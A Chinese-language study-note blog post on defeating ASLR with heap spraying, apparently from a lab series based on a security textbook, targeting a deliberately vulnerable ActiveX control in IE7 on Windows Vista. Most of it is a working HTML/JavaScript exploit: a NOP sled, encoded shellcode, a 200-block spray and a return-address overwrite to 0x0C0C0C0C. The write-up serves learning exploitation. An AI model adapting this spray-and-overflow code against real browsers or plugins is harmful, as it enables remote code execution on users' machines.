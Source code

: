 ```yaml
---
title: 漏洞利用学习笔记-019-利用HeapSpray攻击ASLR
description: 利用Heap Spray(堆喷射)技术来攻击ASLR并定位shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 堆喷射
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-019-利用heapspray攻击aslr/)

## 原理

通过申请大量的内存，占领内存中的0x0C0C0C0C的位置，并在这些内存中放置0x90和shellcode，最后控制程序转入0x0C0C0C0C执行。只要运气不要差到0x0C0C0C0C刚好位于shellcode中的某个位置，shellcode就可以成功执行

## 实验

### 准备工作

> 环境：系统：Windows Vista SP0，DEP状态：默认，浏览器：IE7

- 还是将之前用过的[Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx)作为攻击目标
- `VulnerAX.idl`中`CVulnerAXCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 思想

- 我们利用Heap spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
- 每个内存块中包含着0x90填充和shellcode
- Heap spray结束后我们会占领`0x0C0C0C0C`附近的内存，我们只要控制程序转入`0x0C0C0C0C`执行，在经过若干个0x90滑行之后就可以到达shellcode范围并执行
- test函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址
- 我们将函数返回地址覆盖为`0x0C0C0C0C`，在函数执行返回执行后就会转入我们申请的内存空间中

### 代码

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### 结果

- 成功攻击ASLR，如图

![pic1](p1.png)  
![pic2](p2.jpg)  
![pic3](p3.png)
